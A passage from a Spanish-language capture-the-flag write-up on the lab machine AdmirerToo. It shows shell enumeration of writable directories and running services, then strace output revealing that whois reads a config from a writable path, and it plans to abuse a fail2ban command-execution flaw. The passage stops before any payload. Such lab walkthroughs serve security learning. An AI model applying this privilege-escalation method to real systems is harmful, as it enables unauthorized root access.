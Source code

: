 ```shell
jennifer@admirertoo:/tmp/privesc$ ls -la /dev/shm
total 4
drwxrwxrwt  2 root  root    60 Mar 14 16:32 .
drwxr-xr-x 16 root  root  3080 Mar 14 00:10 ..
-rw-r--r--  1 devel devel   48 Mar 14 16:32 hg8
```
Podemos ver que funcionó la prueba, se creó el archivo a nombre de devel, en primeras esto no pareciera importante ya que devel no es un usuario privilegiado. Intentamos buscar directorios donde devel tenga permisos de escritura para revisar que podemos hacer.

```shell
jennifer@admirertoo:/$ find \-group devel 2>/dev/null
./opt/opencats/INSTALL_BLOCK
./usr/local/src
./usr/local/etc
```
Tenemos varias carpetas donde tiene permisos de escritura, al enumerar servicios vemos que fail2ban está corriendo.

```shell
jennifer@admirertoo:/$ systemctl list-units | grep running
proc-sys-fs-binfmt_misc.automount                                                                loaded active running   Arbitrary Executable File Formats File System Automount Point     
init.scope                                                                                       loaded active running   System and Service Manager                                        
session-538.scope                                                                                loaded active running   Session 538 of user jennifer                                      
apache2.service                                                                                  loaded active running   The Apache HTTP Server                                            
apache2@opencats.service                                                                         loaded active running   The Apache HTTP Server                                            
cron.service                                                                                     loaded active running   Regular background program processing daemon                      
dbus.service                                                                                     loaded active running   D-Bus System Message Bus                                          
fail2ban.service                                                                                 loaded active running   Fail2Ban Service                                                  
getty@tty1.service                                                                               loaded active running   Getty on tty1                                                     
hbase.service                                                                                    loaded active running   HBase                                                             
mariadb.service                                                                                  loaded active running   MariaDB 10.3.31 database server      
```
Investigando vemos que fail2ban tiene una vulnerabilidad que nos permite ejectuar comandos. En este [Link](https://research.securitum.com/fail2ban-remote-code-execution/ "post") podemos ver de que se trata la vulnerabilidad. Menciona que fail2ban usa whois para recoger información sobre los bloqueos que se ejecutan. Insepeccionando whois vemos que la carpeta donde recoge el archivo de configuración es la misma donde tenemos permisos de escritura con el usuario devel.

```shell
jennifer@admirertoo:/etc/fail2ban$ strace whois
rt_sigaction(SIGALRM, {sa_handler=0x56081187ebd0, sa_mask=[ALRM], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7fe334e31840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
openat(AT_FDCWD, "/usr/local/etc/whois.conf", O_RDONLY) = -1 ENOENT (No such file or directory)
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0), ...}) = 0
write(1, "No whois server is known for thi"..., 50No whois server is known for this kind of object.
) = 50
exit_group(1)                           = ?
+++ exited with 1 +++
jennifer@admirertoo:/etc/fail2ban$ 
```
Entonces lo que podemos hacer es subir un archivo de configuración de whois donde pongamos nuestra ip para que así podamos compartir el archivo con el vulnerabilidad de fail2ban donde nos ejecuta comandos. Primero aseguramos que nos de conexión con el whois
